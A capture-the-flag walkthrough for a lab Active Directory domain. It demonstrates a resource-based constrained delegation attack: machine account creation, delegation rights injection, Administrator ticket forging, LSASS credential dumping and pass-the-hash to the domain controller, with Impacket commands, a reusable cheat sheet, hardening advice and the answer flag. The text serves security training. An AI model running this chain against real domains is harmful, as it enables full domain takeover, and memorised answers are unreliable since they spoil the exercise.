

# Forward (Challenge) — Resource-Based Constrained Delegation Guide
**Curriculum Track:** Jr Penetration Tester | **Module 14:** Active Directory Security Testing Basics

---

## 1. Room Overview

The **Forward** challenge room (Canonical Slug: `forwardchallenge`) represents the culminating capstone exercise of the Active Directory Security Testing Basics module. Structured around an **Assumed Breach** methodology, the operator begins with standard, unprivileged domain credentials (`ctf.local\j.smith` / `JSmith@IT2024`) and must execute a complex lateral movement and privilege escalation chain to achieve total Domain Administrator compromise.

The core vulnerability theme centers on **Resource-Based Constrained Delegation (RBCD)**, chaining together the default Active Directory **Machine Account Quota (MAQ)**, discretionary access control list (DACL) misconfigurations (`GenericWrite`), and memory credential harvesting to defeat enterprise security controls.

---

## 2. Learning Objectives

By solving this challenge and analyzing its underlying mechanics, operators master the following competencies:
- **RBCD Architecture vs. Traditional Delegation:** Understand how the binary security descriptor stored in `msDS-AllowedToActOnBehalfOfOtherIdentity` decentralizes delegation management down to object owners.
- **Weaponizing Machine Account Quota (MAQ):** Exploit the default `ms-DS-MachineAccountQuota = 10` setting to register arbitrary computer accounts (`sAMAccountName` ending in `$`) using Impacket's `addcomputer.py`.
- **DACL Modification via rbcd.py:** Inject Access Control Entries (ACEs) into target computer objects where unprivileged users hold `GenericWrite` or `WriteProperty` rights.
- **S4U2self & S4U2proxy Kerberos Minting:** Leverage Impacket's `getST.py` to forge high-privilege service tickets impersonating `Administrator` to target systems.
- **Memory Credential Harvesting & Ticket Theft:** Harvest Domain Administrator sessions or hashes from memory (LSASS) on intermediate member servers.
- **Domain Controller Takeover:** Execute Pass-the-Hash or Pass-the-Ticket attacks to compromise the primary Domain Controller and retrieve the Administrator flag.

---

## 3. Architectural Topology & Challenge Scenario

```mermaid
flowchart TB
    subgraph Attack_Zone ["Attacker Zone (Attack Infrastructure)"]
        AttackBox["Attacker System (AttackBox / Kali Linux)<br/>• addcomputer.py (Creates ATTACKPC$)<br/>• rbcd.py (Injects Delegation DACL)<br/>• getST.py (Mints S4U Ticket)<br/>• psexec.py"]
    end

    subgraph Lab_Network ["Target Enterprise Subnet (ctf.local)"]
        KDC["Domain Controller (DC.ctf.local)<br/>• MAQ = 10 (Default Quota)<br/>• Kerberos KDC & Identity Provider<br/>• Final Objective: Administrator Desktop"]
        
        FileSrv["Intermediate Server (FILESRV.ctf.local)<br/>• j.smith holds GenericWrite permissions<br/>• Target Attribute: msDS-AllowedToActOnBehalfOfOtherIdentity<br/>• Holds active Domain Admin session in LSASS"]
        
        FakePC["Controlled Computer (ATTACKPC$)<br/>• Created by j.smith via MAQ<br/>• Possesses SPN & Participates in Delegation"]
    end

    AttackBox ==>|1. Exploit MAQ to create machine account| KDC
    KDC -->> FakePC
    AttackBox ==>|2. Modify DACL via GenericWrite| FileSrv
    AttackBox -.->|3. Request S4U2self/proxy ticket for FILESRV| KDC
    KDC -->>|4. Issue Administrator Kerberos Ticket| AttackBox
    AttackBox ==>|5. Compromise & Dump DA hash from LSASS| FileSrv
    AttackBox ==>|6. Pass-the-Hash to Domain Controller| KDC
```

### Challenge Metadata & Target Inventory
- **Target Domain:** `ctf.local`
- **Initial Foothold:** `ctf.local\j.smith` (Password: `JSmith@IT2024`)
- **Created Machine Account:** `ATTACKPC$` (Password: `ComputerP@ss123!`)
- **Intermediate Target Server:** `FILESRV$` (`FILESRV.ctf.local`)
- **Primary Domain Controller:** `DC.ctf.local`
- **Recovered Administrator Flag:** `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}`

---

## 4. Technical Background & Deep Dive

### Why RBCD is a Premier Escalation Vector
1. **Decentralized Control:** Unlike traditional constrained delegation, which requires Domain Admin privileges to configure `msDS-AllowedToDelegateTo`, RBCD is governed by `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target computer object itself.
2. **Excessive ACL Delegations:** Many enterprises assign `GenericWrite`, `GenericAll`, or `WriteProperty` over computer objects to helpdesk or tier-1 support groups. These rights permit writing to `msDS-AllowedToActOnBehalfOfOtherIdentity`, creating an immediate privilege escalation path.
3. **Machine Account Quota:** Because unprivileged users can create up to 10 computer objects by default, an attacker with write access to a target computer does not need an existing service account; they can instantiate their own.

---

## 5. Step-by-Step Practical Exploitation

### Step 1: Enumerating Permissions & MAQ
Evaluating permissions with NetExec:
```bash
nxc ldap DC_IP -u j.smith -p 'JSmith@IT2024' -M maq
```
NetExec confirms `MachineAccountQuota: 10`, and BloodHound reveals that `j.smith` possesses `GenericWrite` permissions over computer object `FILESRV$`.

### Step 2: Registering a Machine Account via addcomputer.py
Creating a controlled computer account:
```bash
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'ComputerP@ss123!' -domain-netbios CTF 'ctf.local/j.smith:JSmith@IT2024'
```
Result: `ATTACKPC$` successfully created.

### Step 3: Modifying Target Security Descriptor via rbcd.py
Injecting an Access Control Entry granting `ATTACKPC$` delegation rights to `FILESRV$`:
```bash
rbcd.py -delegate-to 'FILESRV$' -delegate-from 'ATTACKPC$' -action 'write' 'ctf.local/j.smith:JSmith@IT2024'
```

### Step 4: Forging Administrative Service Ticket via getST.py
Requesting an S4U ticket for `cifs/FILESRV.ctf.local` impersonating `Administrator`:
```bash
getST.py -spn cifs/FILESRV.ctf.local -impersonate Administrator 'ctf.local/ATTACKPC$:ComputerP@ss123!'
```
Result: Generated `Administrator.ccache`.

### Step 5: Compromising FILESRV & Memory Harvesting
```bash
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass ctf.local/Administrator@FILESRV.ctf.local
```
On `FILESRV`, dumping LSASS memory reveals the NTLM hash of an active Domain Administrator session.

### Step 6: Domain Controller Compromise & Flag Capture
Connecting to `DC.ctf.local` using the stolen Domain Administrator hash:
```bash
psexec.py ctf.local/Administrator@DC.ctf.local -hashes :[DA_NTLM_HASH]
```
Retrieving the flag:
```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}
```

---

## 6. Comprehensive Attack Flow & Kill Chain



---

## 7. Defense, Hardening & Detection Strategies

| Defense Layer | Recommended Hardening Control | Telemetry & Detection Signature |
|---|---|---|
| **Zero Machine Account Quota** | Set `ms-DS-MachineAccountQuota` to **`0`** domain-wide; only authorized IT admins should create computer objects. | Monitor Security Log for **Event ID 4741** (*A computer account was created*). |
| **Audit RBCD Attributes** | Continuously audit `msDS-AllowedToActOnBehalfOfOtherIdentity` on all domain computers. | Enable Directory Service Auditing and alert on **Event ID 4662** on computer objects. |
| **Clean Excessive ACLs** | Remove `GenericWrite`, `GenericAll`, and `WriteProperty` permissions from standard helpdesk groups. | Periodically audit BloodHound for inbound write paths to computer accounts. |
| **Protect Privileged Accounts** | Add all Domain Admins to the **`Protected Users`** group to prevent ticket delegation. | Monitor Event ID 4769 for S4U requests targeting administrative identities. |
| **Tiered Administration** | Prevent Domain Admins from logging onto Tier-1 servers to eliminate credential leakage. | Alert on interactive logons by Tier-0 accounts on non-DC systems. |

---

## 8. Tasks Summary & Answers Table

| Task # | Task Title | Question | Verified Solution | Verification Status |
|:---:|---|---|---|:---:|
| **01** | Forward | What's the Administrator flag? | `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}` | Verified & Confirmed |

---

## 9. Tool Cheat Sheet & Command Quick Reference

```bash
# 1. Audit Machine Account Quota (MAQ):
nxc ldap DC_IP -u username -p password -M maq

# 2. Register a New Machine Account:
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'Password123!' -domain-netbios DOMAIN 'domain.local/user:password'

# 3. Inject RBCD Security Descriptor:
rbcd.py -delegate-to 'TARGET$' -delegate-from 'ATTACKPC$' -action 'write' 'domain.local/user:password'

# 4. Mint Service Ticket impersonating Administrator:
getST.py -spn cifs/TARGET.domain.local -impersonate Administrator 'domain.local/ATTACKPC$:Password123!'

# 5. Pass-the-Ticket Execution:
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass domain.local/Administrator@TARGET.domain.local

# 6. Mitigate MAQ Domain-Wide (PowerShell):
Set-ADDomain -Identity domain.local -Replace @{'ms-DS-MachineAccountQuota'=0}
```

---

## 10. Practical Verification & Proof of Work

1. Computer account creation: `ATTACKPC$` created via `addcomputer.py`.
2. Security descriptor modification: `rbcd.py` confirmed DACL modification on `FILESRV$`.
3. S4U ticket generation: `getST.py` created valid `Administrator.ccache`.
4. Domain Admin credential recovery: Extracted from memory on `FILESRV`.
5. Domain Controller compromise: Flag recovered from desktop: `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}`.

---

## 11. Key Takeaways & Operational Rules of Thumb

> **Rule of Thumb 1:** Set `MachineAccountQuota` to 0 immediately. Leaving it at the default value of 10 provides adversaries with an open invitation to execute RBCD attacks.
>
> **Rule of Thumb 2:** Excessive write permissions on computer objects (`GenericWrite`) are equivalent to full host compromise via RBCD without needing any software vulnerability.
>
> **Rule of Thumb 3:** Isolate Tier-0 identities. The moment a Domain Admin logs into a member server, their credentials become extractable by any attacker who gains local system access to that server.
